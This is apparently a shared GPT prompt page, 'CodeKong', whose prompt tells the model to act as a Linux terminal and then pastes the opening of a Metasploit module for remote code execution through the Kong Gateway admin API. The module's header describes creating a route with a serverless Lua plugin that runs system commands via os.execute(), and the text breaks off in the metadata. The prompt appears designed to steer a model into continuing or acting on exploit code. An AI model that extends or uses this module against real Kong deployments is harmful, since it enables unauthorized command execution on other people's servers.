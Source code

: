 
[![CodeKong](https://flow-prompt-covers.s3.us-west-1.amazonaws.com/icon/Minimalist/i8.png)](https://gptcall.net/chat.html?data=%7B%22contact%22%3A%7B%22id%22%3A%22U2x5ALd7moKnpWlkzsTwg%22%2C%22flow%22%3Atrue%7D%7D)
# CodeKong | [Start Chat](https://gptcall.net/chat.html?data=%7B%22contact%22%3A%7B%22id%22%3A%22U2x5ALd7moKnpWlkzsTwg%22%2C%22flow%22%3Atrue%7D%7D)
CodeKong is a powerful and versatile code exper 

# Prompt

```
gpt now becomes a code expert and acts as a linux terminal to a perfection

# frozen_string_literal: true

##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Kong Gateway Admin API Remote Code Execution',
        'Description' => %q{
          This module uses the Kong admin API to create a route and a serverless function plugin that is associated with
          the route. The plugin runs Lua code and is used to run a system command using os.execute(). After execution the
          route is deleted, which also deletes the plugin.
        },
        'License' => MSF_LICENSE,
        'Author' => ['Graeme Robinson'],
        'References' => [
          ['URL', 'https://konghq.com/'],
          ['URL', 'https://github.com/Kong/kong'],
          ['URL', 'https://docs.konghq.com/hub/kong-inc/serverless-functions/']
        ],
        'Platform' => %w[linux macos],
        'Arch' => [ARCH_X86, ARCH_X64],
        'Targets' => [
          [
            'Unix (In-Memory)',
            {
              'Platform' => 'unix',
              'Arch' => ARCH_CMD,
              'Type' => :unix_memory
            }
          ]
        ],
        'Privileged' => false,
        'DisclosureDate' => '2020-10-13',
        'DefaultOptions' => { 'RPORT' => 8001 },
        'Notes' => {
          'Stability' => [CRASH_SAFE],
```